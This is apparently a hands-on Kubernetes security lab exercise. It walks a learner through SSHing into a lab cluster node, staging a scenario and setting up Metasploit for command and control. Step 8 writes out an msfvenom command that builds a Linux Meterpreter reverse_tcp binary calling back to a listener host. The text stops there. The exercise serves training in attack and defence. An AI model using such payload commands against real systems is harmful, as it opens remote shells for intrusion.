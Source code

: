 ```yaml
---
layout: exercise
exercise: 83
title: "Exercise: Kubernetes Network Policies"
tools: openssh-client metasploit-framework curl python3 nmap
directories_to_sync: ssh-config 
---
```



## Steps

1. Start up a fresh lxterminal by clicking the "sparrow" logo in the bottom-left corner of the screen, clicking run, typing `lxterminal` and hitting enter. Alternatively, use the hot key sequence below:

    ```
    <hold down Alt><hit F2>lxterminal<HIT the enter key>
    ```

2. SSH into the control plane node on the cluster:

    ```shell
    ssh -i /sync/bustakube-node-key root@bustakube-controlplane
    ```

3. Activate the Secrets scenario:

    ```shell
    /usr/share/bustakube/Scenario-Seat-Meister/stage-scenario.sh
    ```

4. Keep this SSH session open for later.

5. Now, before we go further, let's set up Metasploit so we can use it for command and control when we get into this cluster.

6. Start a new terminal tab by hitting `Ctrl-Shift-t`.

    ```
    Hit Ctrl-Shift-t
    ```

7. Create a directory for creating Meterpreter binaries. Change directory into that new directory.

    ```shell
    mkdir ~/meterpreter
    cd ~/meterpreter
    ```

8. Create a new Meterpreter binary for this exercise:

    ```shell
    msfvenom --platform linux -p linux/x86/meterpreter/reverse_tcp \
    -a x86 LHOST=10.23.58.30 LPORT=4445 -o mrsbin -f elf
    ```
